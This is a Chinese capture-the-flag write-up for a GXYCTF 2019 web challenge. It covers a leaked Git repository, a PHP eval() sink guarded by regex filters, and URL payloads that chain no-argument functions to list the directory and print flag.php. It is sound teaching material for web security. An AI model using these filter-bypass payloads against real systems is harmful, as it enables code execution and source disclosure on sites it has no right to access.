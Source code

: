 ```yaml
---
layout: post
title: GXYCTF 2019 web wp
date: 2021-03-24 17:38 +0800
last_modified_at: 2021-03-24 17:38:00 +0800
tags: [CTF,Web,Write-up]
toc:  true
---
```

## 0x01 禁止套娃

关键词：Git泄露，文件读取

用dirsearch扫描发现是git泄露，采用GitHack下载泄露的Git发现是index.php![](C:\Gitbook\Import\heart1ess_s_ctf\assets\GXY1.png)打开Index.php进行源码审计，发现过滤：

```
<?php
include "flag.php";
echo "flag在哪里呢？<br>";
if(isset($_GET['exp'])){
    if (!preg_match('/data:\/\/|filter:\/\/|php:\/\/|phar:\/\//i', $_GET['exp'])) {
        if(';' === preg_replace('/[a-z,_]+\((?R)?\)/', NULL, $_GET['exp'])) {
            if (!preg_match('/et|na|info|dec|bin|hex|oct|pi|log/i', $_GET['exp'])) {
                // echo $_GET['exp'];
                @eval($_GET['exp']);
            }
            else{
                die("还差一点哦！");
            }
        }
        else{
            die("再好好想想！");
        }
    }
    else{
        die("还想读flag，臭弟弟！");
    }
}
// highlight_file(__FILE__);
?>
```

* 过滤伪协议

* \(?R\)引用当前表达式，后面加了?递归调用。只能匹配通过无参数的函数。

* 过滤了et\|na\|info\|dec\|bin\|hex\|oct\|pi\|log关键字。

知识点：

```
scandir(’.’):扫描当前目录
localeconv() 函数返回一包含本地数字及货币格式信息的数组。而数组第一项就是.
pos(),current():返回数组第一个值

//数组操作函数：
1.end():数组指针指向最后一位
2.next(): 数组指针指向下一位
3.array_reverse(): 将数组颠倒
4.array_rand(): 随机返回数组的键名
5.array_flip()：交换数组的键和值

//读取文件函数
1.file_get_content() :因为et被ban，所以不能使用
2.readfile()
3.highlight_file()
4.show_source()

session_start(): 告诉PHP使用session;
session_id(): 获取到当前的session_id值；
手动设置cookie中PHPSESSID=flag.php；
```

exp构造原理：利用函数名称来表示要查询的语句和文件名，最后采用show\_source查看源码

Payload:

```
/?exp=print_r(scandir(pos(localeconv())));   //查看该目录下的所有文件
/?exp=show_source(next(array_reverse(scandir(pos(localeconv())))));    //查看该目录下倒数第二位的文件源代码
/?exp=show_source(array_rand(array_flip(scandir(pos(localeconv())))));  //随机查看该目录下的一个文件的源代码
```



